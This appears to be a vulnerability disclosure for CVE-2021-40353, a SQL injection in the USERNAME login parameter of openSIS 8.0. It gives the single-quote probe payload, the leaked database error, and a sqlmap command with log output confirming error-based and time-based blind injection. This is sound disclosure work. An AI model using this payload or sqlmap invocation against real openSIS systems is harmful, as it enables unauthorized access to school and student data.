 # CVE-2021-40353
CVE-2021-40353 openSIS 8.0 SQL Injection Vulnerability https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40353

A SQL injection vulnerability exists in version 8.0 of openSIS when MySQL or MariaDB  is used as the application database. An attacker can
then issue the SQL command through the USERNAME parameter.


Vulnerable PHP Page:

index.php - USERNAME parameter

Vulnerable Payload
' - will produce an error with database information
" - does not produce the error

Error

Date: 	

08/31/2021 03:16:22

Failure Notice: 	

 DB Execute Failed 

SQL: 	UPDATE login_authentication SET FAILED_LOGIN=FAILED_LOGIN+1 WHERE UPPER(USERNAME)=UPPER('user1'')
Traceback: 	C:\xampp\htdocs\opensis\index.php at 502
Additional Information: 	You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''user1'')' at line 1
Date: 	

08/31/2021 03:16:22

	openSIS has encountered an error that could have resulted from any of the following:

    Invalid data input
    Database SQL error
    Program error

Please take this screen shot and send it to your openSIS representative for debugging and resolution. 




sqlmap -r post_opensis -p USERNAME

[09:38:19] [INFO] POST parameter 'USERNAME' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[09:38:19] [INFO] testing 'MySQL inline queries'
[09:38:20] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[09:38:21] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[09:38:22] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[09:38:22] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[09:38:23] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[09:38:23] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[09:38:24] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[09:38:46] [INFO] POST parameter 'USERNAME' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable




Discovered by Brian Lowe, August 2021
